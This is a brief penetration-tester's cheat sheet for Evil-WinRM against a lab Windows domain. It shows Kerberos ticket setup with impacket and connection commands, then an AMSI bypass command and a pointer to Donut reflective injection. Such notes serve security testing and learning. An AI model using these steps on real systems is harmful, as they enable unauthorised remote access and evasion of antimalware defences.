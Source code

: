 ```yaml
---
title: Evil-Winrm
author: i4
date: M05-21-2023
---
```


Be aware that users connecting over winrm(s) require local admin

#p5985 #p5985 #authentication-required #local-admin

## Kerberos

```
# Get TGT
impacket-getTGT -dc-ip 10.0.0.100 heimat.erde/i4
# Set KRB5 var
export KRB5CCNAME=./i4.ccache
# Copy to tmp
cp i4.ccache /tmp/krb5cc_0
```

Set kerberos realm

_/etc/krb5.conf_
```
[realms]
HEIMAT.ERDE = { # replace with your domain name
	kdc = falke.heimat.erde # Point to your DC
}
```

Now check if the TGT shows up
```
$ klist
Ticket cache: FILE:./i4.ccache
Default principal: i4@HEIMAT.ERDE

Valid starting       Expires              Service principal
04/23/2023 13:20:18  04/23/2023 23:20:18  krbtgt/HEIMAT.ERDE@HEIMAT.ERDE
        renew until 04/24/2023 13:20:17
```

This should enable you to connect to the target machines over winrm with kerberos auth.

```
evil-winrm -r heimat.erde -i elster.heimat.erde
```

## AMSI bypass
```
*Evil-WinRM* PS C:\> Bypass-4MSI
```

## Reflective Injection
[[Donut-Maker]]
```
Donut-Loader
```
